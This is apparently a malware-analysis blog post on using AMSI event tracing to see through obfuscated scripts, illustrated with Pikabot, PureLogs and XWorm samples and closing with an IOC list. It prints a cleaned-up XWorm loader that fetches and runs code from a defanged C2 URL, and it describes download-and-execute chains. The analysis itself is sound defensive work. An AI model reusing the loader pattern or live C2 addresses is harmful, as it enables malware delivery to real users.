


## Introduction

In today's blog post, we will learn how to use Antimalware Scan Interface (AMSI) to speed up the analysis of malicious scripts. It will help us skip the deobfuscation steps and retrieve IOCs more effectively. So, let's start by explaining what this interface is.

## What is AMSI?

Let's start by quoting from the [Microsoft documentation](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal).

> *AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. **It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.***
>

In simple terms, AMSI is a Microsoft API that enables script engines and applications to expose deobfuscated, in-memory content to antimalware providers, improving detection of fileless threats.

Some of the components that integrate with AMSI are:

- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell (scripts, interactive use, and dynamic code evaluation)
- Windows Script Host (`wscript.exe` and `cscript.exe`)
- JavaScript and VBScript
- Office VBA macros

### How AMSI works?



The image above shows the AMSI architecture and [how it works](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). A script host (like PowerShell) calls [`AmsiScanBuffer`](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer). The request passes through the **Component Object Model (COM) Layer** to the **Provider Class**, which then uses **Remote Procedure Call (RPC)** to send the buffer to **MsMpEng.exe**. The engine analyzes the content and returns an [AMSI_RESULT](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result) value indicating whether the content is clean, detected, or blocked result back up the chain to determine if the script should be allowed to run.

You may also want to experiment with writing your own code! [Pavel Yosifovich](https://x.com/zodiacon) makes a [great video on how to use those APIs](https://trainsec.net/library/windows-internals/how-to-scan-files-with-the-anti-malware-scan-interface-in-windows/).

In this blog, I will present some showcases of how this interface can be used during script analysis.

## Your obfuscation means nothing

In today's modern, highly mature environments, a simple phishing email with a maldoc will not end up in the user's inbox. Initial access is becoming increasingly complex, with modular infection chains that deliver a final payload. This is due to mitigations such as the *Endpoint Detection and Response (EDR)*, [*Mark Of The Web (MOTW)*](https://en.wikipedia.org/wiki/Mark_of_the_Web), the *Antimalware Scan Interface (AMSI)*, and many others. This pushes red teamers and threat actors to improve their delivery capabilities to achieve their foothold.

And why does your obfuscation mean nothing in the end? Your obfuscation can be pretty clever at misleading some basic static analysis routine, or, even better, at slowing down manual static code analysis. *But in the end, the script that the engine will execute must be deobfuscated to run correctly*. And that's when AMSI comes into play.

To use this interface during analysis, we can use the [logman](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/logman) utility. By quoting from MSDN, logman is used to:

> *Creates and manages Event Trace Sessions and Performance logs, and supports many functions of Performance Monitor from the command line.*
>

To better understand what logman does, first, we need to understand [what Event Tracing for Windows (ETW) is](https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw).

> *Event Tracing for Windows (ETW) is a high speed tracing facility built into Windows. Using a buffering and logging mechanism implemented in the operating system kernel, ETW provides an infrastructure for events raised by both user mode (apps) and kernel mode components (drivers).*
>

From a malware analyst, threat hunter, or anti-malware products perspective, ETW is one of the most powerful native telemetry sources in Windows. **It provides behavioral visibility** that static analysis, API hooking, or user-mode monitoring alone often cannot.

So, let's create a trace session named `AMSITrace` that captures AMSI provider events and writes them to an `.etl` file for later analysis.

```powershell
logman start AMSITrace -p "Microsoft-Antimalware-Scan-Interface" -o AMSITrace.etl -ets
```

The `Microsoft-Antimalware-Scan-Interface` is an ETW provider. This means:

- We are capturing **AMSI scan-related events**
- These events are generated when some of the components that are integrated with AMSI are executed

With this trace, we, as malware analysts, can observe:

- When AMSI is invoked
- Which script engines trigger scans
- How often scans happen
- Whether obfuscation triggers deeper inspection
- Differences between:
  - `Invoke-Expression`
  - `Reflection.Assembly::Load`
  - `FromBase64String`
- Behavioral changes when AMSI bypass attempts are used

Remember, this will be used during **dynamic analysis**, so *keep in mind to turn off the internet connection on your box*, or use something like [InetSim](https://www.inetsim.org/) or [FakeNet](https://github.com/mandiant/flare-fakenet-ng) to simulate network traffic.

When you finish the execution, use the command below to stop tracing.

```powershell
logman stop AMSITrace -ets
```

To have a clear view of the results from the event session trace, we can use the script created by [mattifestation](https://gist.github.com/mattifestation/e179218d88b5f100b0edecdec453d9be). This script will output your results in a formatted way.



Spawn a terminal with administrator rights and execute the following commands:

```powershell
Set-ExecutionPolicy Bypass
.\AMSIScriptContentRetrieval.ps1 .\AMSITrace.etl
```

Let's dive into some practical examples. The samples used in this blog were randomly selected from Malware Bazaar and they are linked below each section if you want to follow along.

### Pikabot

Sample: [461e17a3fd2cb632fc31c85d625c289550daf359a6565c9dd7d08cf0b6914c9f](https://bazaar.abuse.ch/sample/461e17a3fd2cb632fc31c85d625c289550daf359a6565c9dd7d08cf0b6914c9f/)

Starting our showcases with an initial access JScript used to deliver [Pikabot malware](https://malpedia.caad.fkie.fraunhofer.de/details/win.pikabot). As we can see in the images below, this script is highly obfuscated, with some junk code, Control Flow Flattening (CFF), and a base64 encoded blob in the `playrooms` variable.

{{< carousel images="{imgs/img01.png,imgs/img02.png,imgs/img03.png}" interval="4000" aspectRatio="25-9" >}}

Without wasting much time manually deobfuscating the entire script, we can just set up the event session trace and execute the script in our lab VM.

As we can see in the image below, it's pretty simple to understand the objective of the script just by inferring the purpose of the called functions.



From the output above, we can assume that the script copies itself to the `C:\ProgramData\Firnismalerei.js` and self-execute from the new location. And then it probably checks if it's running from the desired location and executes a PowerShell script with an encoded command.

Initially, I couldn't determine why the event trace output wasn't appearing after the PowerShell stage. After digging a bit and doing some searches, I found that if the script is too large, *AMSI will analyze it into chunks depending on the engine and host process*.

To expand our visibility into our tracing, we can re-execute our previous process, but now, with some additional arguments to logman.

```powershell
logman start AMSITrace `
  -p Microsoft-Antimalware-Scan-Interface `
  -o AMSITrace.etl `
  -bs 1024 `
  -nb 256 512 `
  -ets

```

These two additional arguments help prevent dropped ETW events and enhance trace reliability.

- `-bs` (buffer size)
- `-nb` (number of buffers)

After re-executing the script with those changes, the output result was pretty different and more verbose.



As we can see, the decoded PowerShell command contains several unused variables as a form of obfuscation. After some manual cleanup, the final result is shown below.



The script is straightforward to understand. It starts by sleeping for 9 seconds and initializes a variable named `Spellbinder` with base64 encoded data. Then, for each blob split by the `Yzn` character sequence, it is passed to the `Nonsecluded` variable that is decoded with the `FromBase64String` method.



Using CyberChef, we can replicate the logic. The decoded URLs are saved to the `bandore` that is used by the `wget` command to download a second stage and save it to the `ProgramData\Undermines.Personificative` used by Pikabot in the infection chain. Then, if the saved content is greater than or equal to `293296 bytes`, it will execute another PowerShell encoded command.



In the end, the decoded command turns out to be `rundll32`, executed with the previously downloaded payload.

**Obs:** I tried to connect to those endpoint, but at the time of writing the [C2 was takedown](https://www.darkreading.com/vulnerabilities-threats/operation-endgame-takedowns-arrests-matter).



### PureLogs Stealer

Sample: [9d12aae7dab13f17a28e4d123c9383fdee217d023ed9bd47668a771de7ff6987](https://bazaar.abuse.ch/sample/9d12aae7dab13f17a28e4d123c9383fdee217d023ed9bd47668a771de7ff6987/)

Our second sample is from the PureLogs Stealer malware infection chain. This PowerShell script is obfuscated using a string concatenation technique. It downloads a `.PNG` image from `archive[.]org`.

{{< carousel images="{imgs/img10.png,imgs/img11.png}" interval="4000" aspectRatio="120-9" >}}

After successfully downloading the image, it performs a regular expression search for a match of `"BaseStart-(.*?)-BaseEnd"`. If a match is found, it decodes the base64 payload and uses the `Reflection.Assembly::Load` method to launch the next stage. Based on the image's name and its URL, I will probably hypothesize that the next stage is an `.MSI` file. Although the filename suggested a possible MSI payload, the use of `Reflection.Assembly::Load` confirms that the embedded content is a .NET assembly.



I tried to download the image from the archive, but it had been removed.



#### Maybe we can pivot through

We can try pivoting with VirusTotal to determine the next stage.



In the relations tab, we can see that the archive URL is related to our sample. By clicking it, the last seen download file points to a `JPEG`.



If we click into this `JPEG` hash and search for `BaseStart-`, we are presented with the `TVq` base64 sequence that represents the famous `MZ` for PE executable.


  
  


Let's download the sample to our lab environment and see if we are dealing with the same payload.

Once the base64 data is extracted and decoded, we obtain a .NET executable. This binary is protected using `.NET Reactor` obfuscation.



Using dnSpy, you can easily understand what this binary does and how the previous arguments are used. Of course, there are also tools like [NETReactorSlayer](https://github.com/SychicBoy/NETReactorSlayer) or [de4dot](https://github.com/de4dot/de4dot) that can help deobfuscate the .NET code, but in this case, I will pause the analysis here.



When searching for the SHA256 hash of this file on VirusTotal, it seems to be linked to [Katz Stealer](https://www.nextron-systems.com/2025/05/23/katz-stealer-threat-analysis/) rather than PureLogs Stealer. However, I can't confirm this since my main goal was to demonstrate how to use AMSI. We're getting sidetracked.



### XWorm

Sample: [054dfc79f9382fb9cb0a97870dad3ef1f5c91b7a15540a217cb3619db857307f](https://bazaar.abuse.ch/sample/054dfc79f9382fb9cb0a97870dad3ef1f5c91b7a15540a217cb3619db857307f/)

Our last sample will be an [XWorm malware](https://malpedia.caad.fkie.fraunhofer.de/details/win.xworm) initial stage JScript obfuscated with some non-standard characters. But you will see how easy it is to retrieve the C2 address for the next stage.

This JScript code masquerades as a legitimate configuration script for a Microsoft v4 printer driver by exploiting constraints in Windows printing for `PrintTicket`/`PrintCapabilities` handling. Still, it contains an obfuscated payload that downloads and executes a second stage.



Running our event trace and our malicious script, we can see that it attempts an [HTTP GET request](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/ms766431(v=vs.85)) using the `MSXML2.ServerXMLHTTP` interface ([IServerXMLHTTPRequest](https://doxygen.reactos.org/d0/dab/interfaceMSXML2_1_1IServerXMLHTTPRequest2.html)).



I did a simple cleanup to keep only the essential parts, ensuring the code remains clear.

```jsx
var c2_url =
  "hxxp[://]javascriptplugin[.]lovestoblog[.]com/arquivo_df69d7b4e2c548e588c0651943440b4b";

var xmlHttp = "MSXML2.ServerXMLHTTP";
var request = new ActiveXObject(xmlHttp);

request.open("GET", c2_url, false);
request.send();

var exec_code = request.responseText;
new Function(exec_code)();
```

## Summary

Throughout this post, we saw how AMSI can significantly accelerate the analysis of heavily obfuscated malicious scripts by revealing meaningful content earlier in the execution chain. While some cases still require manual intervention to fully understand the attacker’s intent, AMSI consistently reduces overall analysis effort by cutting through layers of obfuscation and surfacing high-value context. When integrated into a structured workflow, it becomes a powerful ally for analysts, saving time, improving visibility, and enabling faster, more confident conclusions in script-based malware investigations.

## IOCs

- Pikabot:
  - `hxxp://176.124.198[.]213/Fs8Py/eKTYt3dRbEXw`
  - `hxxp://176.124.198[.]212/s0A/6DqR5o`
  - `hxxp://109.172.45[.]79/PIL4mU/CMUywRHe`
- PureLogs:
  - `77.237.245[.]246:8000`
  - `hxxps://javascriptupdate[.]com/backup-update-system32.php`
  - `e877c241f3e6c1188b3f15436548a1e4363ed1397bac6222e86138e68d52dd56`
  - `8c8024288b96ca29a0ba8900c50bc1abecedd20a6424ad08af09ea86ccf8b087`
- XWorm:
  - `hxxp://javascriptplugin[.]lovestoblog[.]com/arquivo_df69d7b4e2c548e588c0651943440b4b"`
